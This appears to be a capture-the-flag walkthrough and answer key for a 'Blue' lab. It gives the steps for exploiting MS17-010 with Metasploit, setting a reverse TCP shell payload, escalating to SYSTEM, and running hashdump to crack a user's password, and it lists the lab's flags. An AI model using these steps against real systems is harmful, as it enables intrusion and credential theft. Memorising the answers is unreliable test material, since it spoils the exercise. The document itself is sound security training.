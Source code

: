 # Blue

Difficulty: Easy

## Task 1 - Recon

- Scan the machine!

          no answer needed

- How many ports are open with a port number under 1000?

	- `3`

- What is this machine vulnerable to?

	- `ms17-010`

## Task 2 - Gain Access

- Start Metasploit

          no answer needed

- Find the exploitation code we will run against the machine. What is the full path of the code?

	- `exploit/windows/smb/ms17_010_eternalblue`

- Show options and set the one required value. What is the name of this value?

	- `RHOSTS`

- Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter: `set payload windows/x64/shell/reverse_tcp`

          no answer needed

- With that done, run the exploit!

          no answer needed

- Confirm that the exploit has run correctly.

          no answer needed

## Task 3 - Escalate

- What is the name of the post module we will use?

	- `post/multi/manage/shell_to_meterpreter`

- Select this (use MODULE_PATH). Show options, what option are we required to change?

	- `SESSION`

- Set the required option

          no answer needed

- Run! If this doesn't work, try completing the exploit from the previous task once more.

          no answer needed

- Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this.

          no answer needed

- List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

          no answer needed

- Migrate to this process using the 'migrate PROCESS_ID' command whre the process id is the one you just wrote down in the previous step.

          no answer needed

- Within our elevate meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. what is the name of the non-default user?

	- `Jon`

- Copy this password hash to a file and research how to crack it. What is the cracked password?

	- `alqfna22`

## Task 4 - Find flags!

- Flag 1? *This flag can be found at the system root.*

	- `flag{access_the_machine}`

- Flag 2? *This flag can be found at the location where passwords are stored within Windows.*

	- `flag{sam_database_elevated_access}`

- Flag 3? *This flag can be found in an excellent location to loot. After all Administrators usually have pretty interesting things saved.*

	- `flag{admin_documents_can_be_valuable}`
